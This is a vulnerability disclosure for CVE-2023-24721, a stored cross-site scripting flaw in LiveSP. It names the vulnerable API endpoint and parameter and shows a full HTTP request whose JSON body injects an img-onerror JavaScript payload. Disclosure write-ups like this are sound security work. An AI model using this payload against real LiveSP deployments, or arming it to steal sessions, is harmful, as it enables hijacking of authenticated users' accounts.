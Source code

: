 ### [CVE-2023-24721 - Stored Cross-site Scripting (XSS)](https://nvd.nist.gov/vuln/detail/CVE-2023-24721)
![](https://img.shields.io/static/v1?label=Product&message=LiveSP%20-%20LiveAction&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=%3D%2021.1.2%20&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CWE-79:%20Improper%20Neutralization%20of%20Input%20During%20Web%20Page%20Generation%20('Cross-site%20Scripting')&color=brighgreen)

### Description

An issue was discovered in LiveSP through v.21.1.2. A malicious user leveraging this vulnerability could inject arbitrary JavaScript code. The malicious payload will then be triggered every time an authenticated user browses the page containing it.

### POC

Stored cross-site scripting (also known as second-order or persistent
XSS) arises when an application receives data from an untrusted source
and includes that data within its later HTTP responses in an unsafe way.
The attacker-supplied code can perform a wide variety of actions, such
as stealing victims' session tokens or login credentials, performing
arbitrary actions on their behalf, and logging their keystrokes.
Methods for introducing malicious content include any function where
request parameters or headers are processed and stored by the
application, and any out-of-band channel whereby data can be
introduced into the application's processing space (for example, email
messages sent over SMTP that are ultimately rendered within a web
mail application).

Stored cross-site scripting flaws are typically more serious than reflected
vulnerabilities because they do not require a separate delivery
mechanism in order to reach target users, and are not hindered by web
browsers' XSS filters. Depending on the affected page, ordinary users
may be exploited during normal use of the application. In some
situations this can be used to create web application worms that spread
exponentially and ultimately exploit all active users.

### Affected Endpoint
- **URL:** https://[ip:port]/va/service/bach/topology/element
- **HTTP Post Parameter:** name

### Technical Details
In this specific instance, using the API available under
*/va/service/bach/topology/element*, it is possible to inject arbitrary
JavaScript code within the *name* POST parameter, as shown in the
following HTTP Request/Response pair.

**HTTP Request:**

```html
POST /va/service/bach/topology/element HTTP/1.1
Host: [REDACTED]
Cookie: [REDACTED]
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:108.0) Gecko/20100101 Firefox/108.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: [REDACTED]
Content-Type: application/json
Content-Length: 175
Origin: [REDACTED]
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

{"attributes":{"name":"\"><img src='x' onerror='alert(\"pwned\")'>","extraLabel":""},"type":"cluster","keyType":"cluster:applicationUser","children":{"neType:application":[]}}
```

**HTTP Response:**

```html
HTTP/1.1 201 Created
Server: [REDACTED]
Date: Wed, 04 Jan 2023 13:45:39 GMT
Content-Type: application/json
Content-Length: 902
Connection: close
Access-Control-Allow-Credentials: true
Access-Control-Expose-Headers: [...]
Access-Control-Allow-Origin: *
Referrer-Policy: strict-origin

[...]
```

As we note from the HTTP Response above, the exploit was successfully saved. At this point, when the user visits the *https://[hostname:port]/va/cluster* web page, the exploit runs from the victim’s browser.

![xss](https://github.com/marcovntr/CVE/blob/main/2023/CVE-2023-24721/xss.png)

#### Reference
- https://nvd.nist.gov/vuln/detail/CVE-2023-24721
- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-24721

